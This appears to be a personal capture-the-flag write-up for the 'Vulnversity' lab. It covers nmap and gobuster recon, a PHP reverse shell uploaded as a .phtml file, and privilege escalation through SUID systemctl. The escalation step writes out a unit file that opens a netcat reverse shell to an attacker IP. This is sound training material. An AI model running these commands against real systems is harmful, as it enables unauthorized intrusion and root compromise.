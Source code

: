 # Vulnversity

1. Deploy the machine should be straight forward
2. For the recon level, I just used
   ```
   nmap 10.10.181.14 -A -T4
   ```
   also had to see the -h switch to find out what -n does not do
3. Locating directories with Gobuster

   ```
   gobuster dir -u http://10.10.91.9:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

   ===============================================================
   Gobuster v3.1.0
   by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
   ===============================================================
   [+] Url:                     http://10.10.91.9:3333
   [+] Method:                  GET
   [+] Threads:                 10
   [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
   [+] Negative Status codes:   404
   [+] User Agent:              gobuster/3.1.0
   [+] Timeout:                 10s
   ===============================================================
   2021/11/26 11:51:54 Starting gobuster in directory enumeration mode
   ===============================================================
   /images               (Status: 301) [Size: 316] [--> http://10.10.91.9:3333/images/]
   /css                  (Status: 301) [Size: 313] [--> http://10.10.91.9:3333/css/]
   /js                   (Status: 301) [Size: 312] [--> http://10.10.91.9:3333/js/]
   /fonts                (Status: 301) [Size: 315] [--> http://10.10.91.9:3333/fonts/]
   /internal             (Status: 301) [Size: 318] [--> http://10.10.91.9:3333/internal/]
   /server-status        (Status: 403) [Size: 300]
   Progress: 112157 / 220561 (50.85%)
   ```

   /internal/ is where the upload form is located.

4. Comprimise the browser
   - basically just did what the instructions said and found the .phtml is the allowed file.
   - copied the raw code from https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php and saved it as reverse-shell.phtml
   - uploaded the file into the /internal/ page
   - started a listener with netcat
   - then went to http://10.10.91.9:3333/internal/uploads/reverse-shell.phtml
   - we got a user shell from here and got the user flag
5. Privilege Escalation

   - Google what SUID does and found out that there a binary exploit for it.
   - https://gtfobins.github.io/gtfobins/systemctl/
   - https://www.youtube.com/watch?v=WgTL7KM44YQ
   - so here is the next steps I did copying the code from gtfobins
   - started another listener on port 3000
     ```
     nc -nvlp 3000
     ```
   - then

     ```
     TF=$(mktemp).service
     ```

     ```
     echo '[Service]
     ExecStart=/bin/sh -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.54.166 3000 >/tmp/f"
     [Install]
     WantedBy=multiuser.target' >$TF

     /bin/systemctl link $TF

     /bin/systemctl enable --now $TF
     ```

     ```
     /bin/systemctl link $TF
     ```

     ```
     /bin/systemctl enable --now $TF
     ```

   - after the last command script my other listener has activated...
   - from there you'd just need to go to /root/ to find the root flag

<br><br><br>

# Reference

1. https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
2. https://gtfobins.github.io/gtfobins/systemctl
3. https://www.youtube.com/watch?v=WgTL7KM44YQ
4. https://www.youtube.com/watch?v=nC9D1ES-nmo
